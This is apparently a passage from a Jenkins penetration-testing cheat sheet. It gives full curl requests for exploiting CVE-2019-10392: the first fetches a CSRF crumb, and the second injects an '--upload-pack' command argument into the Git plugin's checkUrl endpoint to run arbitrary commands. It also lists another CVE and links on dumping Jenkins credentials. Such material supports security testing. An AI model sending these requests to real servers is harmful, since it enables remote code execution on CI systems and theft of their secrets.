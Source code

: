 | < Git plugin <3.12.0 | CVE-2019-10392 | `Jobs/Configure` permission | Source: https://iwantmore.pizza/posts/cve-2019-10392.html <br/><br/> Retrives the required CSRF token: <br/> `curl '<URL>/user/test/crumbIssuer/api/xml?xpath=concat(//crumbRequestField,":",//crumb)' -H 'Connection: keep-alive' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'DNT: 1' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H 'Referer: <URL>' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'Cookie: <COOKIES>' --compressed` <br/><br/> Command execution: <br/> `curl '<URL>/job/test/descriptorByName/hudson.plugins.git.UserRemoteConfig/checkUrl' -d "value=--upload-pack=`\``<CMD>`\``" -H 'Cookie: <COOKIES>' -H 'Origin: <URL>' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' -H 'X-Prototype-Version: 1.7' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'Jenkins-Crumb: <CRUMB>' -H 'Pragma: no-cache' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: text/javascript, text/html, application/xml, text/xml, */*' -H 'Cache-Control: no-cache' -H 'Referer: <URL>/job/test/configure' -H 'DNT: 1' --compressed` |
| <= ElasticBox Jenkins Kubernetes CI/CD Plugin 1.3 | CVE-2020-2211  | Must be able to "provide YAML input files to ElasticBox Jenkins Kubernetes CI/CD Plugin's build step" | Source: https://www.jenkins.io/security/advisory/2020-07-02/ |

--------------------------------------------------------------------------------

### References

https://github.com/gquere/pwn_jenkins
https://codurance.com/2019/05/30/accessing-and-dumping-jenkins-credentials/
https://www.jenkins.io/doc/book/managing/security/
https://support.cloudbees.com/hc/en-us/articles/203802500-Injecting-Secrets-into-Jenkins-Build-Jobs
https://plugins.jenkins.io/mask-passwords/
https://www.jenkins.io/doc/book/architecting-for-scale/
